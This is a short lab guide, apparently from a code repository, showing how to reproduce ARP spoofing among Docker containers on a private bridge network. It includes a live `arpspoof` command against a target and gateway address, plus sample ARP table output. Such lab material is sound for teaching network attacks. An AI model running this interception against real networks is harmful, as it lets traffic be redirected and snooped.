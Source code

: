# How to test the arp spoofing attack

1. Create a custom network in Docker: `docker network create -d bridge mynetwork`
2. Start two or more containers and connect them to the custom network: `docker run --network mynetwork --name container1 -it ubuntu`
3. `docker run --network mynetwork --name container2 -it ubuntu`
4. `docker run --network mynetwork --name container3 -it ubuntu`
5. Once the containers are running, you can install the necessary tools like `arp`, `arp-scan`, `arp-spoof` on each of the container
   1. `apt-get update && apt-get install net-tools arp-scan`
   2. `apt-get install inetutils-ping`
   3. `apt-get install dsniff -y`
      1. only be needed in the spoofing machine ( In this case, it's a `container1` )
6. In the `container1 (172.20.0.2)`, run the command `arpspoof -i eth0 -t 172.20.0.4 172.20.0.3`
7. This will cause the `172.20.0.4` machine to send its ARP requests to `172.20.0.2` machine instead of `172.20.0.3`, so that all the traffic from `172.20.0.4` is sent to `172.20.0.2` instead of `172.20.0.3`
   1. You can get the result of ARP by using `arp -a`
    ```sh
    # When ARP spoofing is running
    $ arp -a
    container2.mynetwork (172.20.0.3) at 02:42:ac:14:00:02 [ether] on eth0
    ? (172.20.0.1) at 02:42:3c:5f:e7:08 [ether] on eth0

    # Correct ARP result
    $ arp -a
    container2.mynetwork (172.20.0.3) at 02:42:ac:14:00:03 [ether] on eth0
    ? (172.20.0.1) at 02:42:3c:5f:e7:08 [ether] on eth0
    ```
